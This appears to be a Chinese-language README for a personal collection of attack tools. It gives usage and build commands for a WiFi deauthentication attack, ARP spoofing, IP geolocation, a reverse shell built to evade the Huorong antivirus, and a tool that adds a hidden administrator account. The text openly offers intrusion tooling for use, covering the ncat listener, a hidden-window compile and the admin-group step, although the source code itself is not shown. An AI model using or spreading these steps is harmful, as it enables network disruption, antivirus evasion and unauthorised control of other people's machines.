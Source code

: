 ## ICU member sxsymxsyy
### deauth attack
用法
<code>bash 0.sh</code><br>
请在0.sh中自行添加<code>sleep</code><br>
并修改0.c中<code>main</code>函数里的信道<code>b</code><br>
3.py中的<code>addr2</code>和<code>addr3</code><br>
该项目相当于执行<br>
<code>aireplay-ng -0 <int类型> -a 1C:FF:59:33:7F:FF(AP) --ignore-negative-one -D wlan0</code><br>
如果要注释 那么请<code>cat 0.txt</code><br>
### 2.py
用法<br> 
<code>python3 2.py <IP地址></code><br>
请到<code>maxmind</code>下载<code>GeoLite2-City.mmdb</code>后运行
### metadata of movie or picture
用法 <code>python3 1.py</code><br>
步骤
<code>start ms-settings:privacy-location</code><br>
turn on location services let app camera access your location<br>
then <code>start microsoft.windows.camera:</code><br>
### gateway mac address
用法<br>
<code>pwsh</code><br>
<code>.\0.ps1</code><br>
<code>python3 0.py</code>
请将0.py中的<code>src</code>修改为<code>.\0.ps1</code>的输出<br>
### bluetooth pair
用法<br>
<code>python3 4.py</code><br>
### arp spoof
用法<br> 
<code>python3 9.py</code><br>
<code>python3 10.py</code><br>
修改10.py中的wlp3s0(网卡)<br>
local ethernet address && gateway ipv4 address<br>
### login optical modem
用法<br>
<code>gcc ./2.c -o 2</code><br>
<code>./2</code><br>
### bypass huorong reverse shell(small version)
用法<br>
<code>ncat -lvp 19482</code><br>
<code>g++ 0.cpp -o 00 -lws2_32 -s -O2 -static -static-libgcc -static-libstdc++ -mwindows</code>
需要修改0.cpp中的RyzU1
### bypass huorong add user account 
用法<br>
<code>x86_64-w64-mingw32-g++ -o 001 1.cpp -lnetapi32 -static -static-libgcc -static-libstdc++</code><br>
<code>001.exe</code><br>
<code>net localgroup administrators DSzOO3vnAu /add</code><br>
###### 2024年12月原创于中华人民共和国浙江省宁波市
